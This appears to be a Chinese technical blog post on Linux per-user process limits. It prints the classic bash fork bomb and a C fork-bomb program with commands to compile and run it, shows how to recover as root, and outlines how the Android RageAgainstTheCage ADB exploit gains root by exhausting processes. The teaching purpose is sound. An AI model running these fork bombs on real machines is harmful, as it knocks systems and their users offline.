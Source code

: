 这篇文章我们来介绍 fork 炸弹与进程数量限制相关的知识。


## 进程数量限制

在 Linux 系统中，进程的数量是有上限的，可以通过 `/proc/sys/kernel/pid_max` 进行查看和设置这个上限。在我的 64 位 Centos7.4 机器上，这个默认值为 32768。32 位机器上，pid_max 最大值为 32768，在 64 位的机器上，这个值最大可以到 2^22 次方（约 420 万）。

为了防止单个用户耗尽了所有的进程数，Linux 对单个用户能创建的进程数量也做了限制，使用 ulimit -a 命令可以方便地查看这些限制：

```
$ ulimit -a
-t: cpu time (seconds)              unlimited
-f: file size (blocks)              unlimited
-d: data seg size (kbytes)          unlimited
-s: stack size (kbytes)             8192
-c: core file size (blocks)         0
-m: resident set size (kbytes)      unlimited
-u: processes                       4096
-n: file descriptors                1024
-l: locked-in-memory size (kbytes)  64
-v: address space (kbytes)          unlimited
-x: file locks                      unlimited
-i: pending signals                 7256
-q: bytes in POSIX msg queues       819200
-e: max nice                        0
-r: max rt priority                 0
-N 15:                              unlimited
```

在 "processes" 那一行的 4096 就是当前用户能创建的最大的进程数。


## fork 炸弹

提到进程数量限制，不得不提到著名的进程 fork 炸弹，这是一种通过无限制地创建新进程来耗尽系统资源的攻击方式，最经典的 Fork 炸弹由 Jaromil 在 2002 年设计，仅用 13 个字符实现。其源码如下：

```
:(){:|:&};:
```

这段代码看似简单，但其背后的机制非常巧妙。下面我们详细解析其工作原理。

这段脚本的原理是定义了一个名为` : `的函数，该函数会调用自身两次，并将其放入后台执行，从而导致无限递归。

`:()` 是函数定义，它定义了一个名为 `:` 的函数，函数名可以是任意字符。

`{:|:&}` 是函数体，它包含了一个递归调用和进程控制操作：

* `:`：调用自身，即递归调用。
* `|`：管道操作符，将输出传递给另一个进程，`:|:` 表示把当前函数的一个副本通过管道传递给另一个副本。
* `&`：将进程放入后台执行。

最后的 `:` 表示函数调用，这部分调用了刚刚定义的函数` :`，从而启动了递归过程。


我们也可以用下面的 C 代码来实现类似的功能：

```
#include <unistd.h>

int main(void) {
  while (1)
    if (fork() < 0) {
      sleep(1);
    }
}
```

编译上面的代码，然后将 forkbomb 放在后台执行：

```
gcc -o forkbomb forkbomb.c
./forkbomb &
```

输出的结果如下所示：

```
$ ./forkbomb &
[1] 15936

zsh: fork failed: resource temporarily unavailable
```

这时再在命令行中执行任何命令，都会提示失败：

```
$ ps
zsh: fork failed: resource temporarily unavailable
```

这个时候想杀掉  forkbomb 进程也无法实现，因为执行命令也需要新建一个进程，而 forkbomb 程序已经耗尽了当前用户所有的进程数。即使通过 SSH 登录这台机器也会失败，提示如下：

```
$ ssh ya@c4
shell request failed on channel 0
```

这时我们以 root 用户 ssh 登录这台机器是可以的，因为 forkbomb 程序只是耗尽了普通用户 `ya` 的所有进程数。使用 ps 查看所有用户启动的进程数统计，如下所示：

```
[root@c4 ~]# ps -A -o user | sort | uniq -c
      1 chrony
      1 dbus
      1 polkitd
      5 postfix
     91 root
      1 USER
   4096 ya
```

可以看到 ya 用户正好启动了 4096 个进程，使用 ps 或者 pgrep 统计一下 forkbomb 的进程数量，可以看到一共启动了 4092 个 forkbomb 程序。

```
[root@c4 ~]# pgrep forkbomb | wc -l
4092
```

可以使用 kill 杀掉所有的 forkbomb 进程。

```
[root@c4 ~]# pgrep forkbomb | xargs kill
```

这时在普通用户 ya 下，就可以正常执行所有的命令了。



## Android ADB 提权漏洞 RageAgainstTheCage

弄清楚了进程的数量限制，我们来看看早年非常有名的 Android ADB 提权漏洞 RageAgainstTheCage，这个漏洞被广泛用于 root 工具中。其原理是 adb 开始运行时是以 root 用户运行的，在运行过程中把自己降级为 shell 用户，如下所示：

```c
int adb_main(int is_daemon) {
    // ...
    if (secure) {
        // ...
        /* then switch user and group to "shell" */
        setgid(AID_SHELL);
        setuid(AID_SHELL);
        // ...
    }
}
```

google 的工程师在写这个代码是没有去检查 setgid、setuid 的返回值，想当然地认为从 root 用户把自己降级为 shell 用户一定会成功。

就比如公司董事长下了一个指令，要求把自己的职位变为基层牛马码农，然后就认为已经成为程序员牛马的一员。但是殊不知这个过程不一定会成功，比如公司系统有一个硬性规定，程序员最多只能有 100 人，当前已经招满了 100 人了，董事长想成为程序员的梦想破裂。

利用这个漏洞的过程如下：

- 使用 fork 疯狂创建进程，耗尽 shell 这个用户的进程数量；
- 杀掉 adb 进程，再次 fork，这时候 adb 的 setuid 就失败了；
- 现在的 adb 进程还是以 root 用户运行的，接下来可以为所欲为了。


这个漏洞影响了 Android 2.2 及之前的版本，使得攻击者可以通过 adb 获得 root 权限，从而完全控制设备。不过该漏洞在后续 Android 版本中得到了修复，Google 在 adb 的 setuid 和 setgid 调用后都增加了返回值检查，如果降权失败就会直接退出，避免了权限提升。


## 小结

经过上面的介绍，我们就知道需要特别注意 Linux 系统中进程数量的限制，避免单个用户或系统耗尽进程数量上限，同时在编写权限相关的代码时，一定要检查 setuid/setgid 等系统调用的返回值，确保操作是成功的才继续后面的流程。


